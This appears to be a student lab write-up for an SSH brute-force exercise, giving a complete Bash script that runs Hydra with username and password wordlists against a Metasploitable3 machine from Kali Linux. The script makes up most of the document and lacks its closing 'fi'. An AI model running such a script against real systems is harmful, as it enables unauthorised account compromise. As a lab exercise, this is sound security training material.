



# Task 1.2 – Compromise the service using a custom script that you create

##  Objective

Use a custom Bash script with Hydra to perform a brute-force attack on the SSH service of Metasploitable3.
---

##  Environment Setup

| Machine            | IP Address      | Role         |
|--------------------|------------------|--------------|
| Kali Linux         | 192.168.64.2       | Attacker     |
| Metasploitable3    | 192.168.64.3       | Victim       |

---

## 🛠 Tools Used

- **Kali Linux** – Attack platform  
- **Hydra** – Brute-force tool  
- **Metasploitable3** – Vulnerable target machine  

---

#  Steps Performed

##  Step 1: Create the Script File Using nano

Open a terminal in Kali and create a new Bash script file:

```bash
nano script.sh
```


##  Script Used

We created a Bash script (`script.sh`) that automates the process of using Hydra to brute-force SSH login credentials.

###  `script.sh`

```bash
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.3"      # target IP
TARGET_PORT=22                # target port

# Define the path to the username and password files
USER_LIST="ssh-brute/users.txt"
PASSWORD_LIST="ssh-brute/pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
```


---
###  Step 2: Run the Script Using `bash`

After writing and saving the script using `nano`, we executed it using the following command:

```bash
bash script.sh
```


---
##  Conclusion

In this task, we created and ran a custom script that used Hydra to attack the SSH service. The script tested many username and password combinations, and at the end, it successfully found the correct login. This proves that the script worked and completed the task goal.


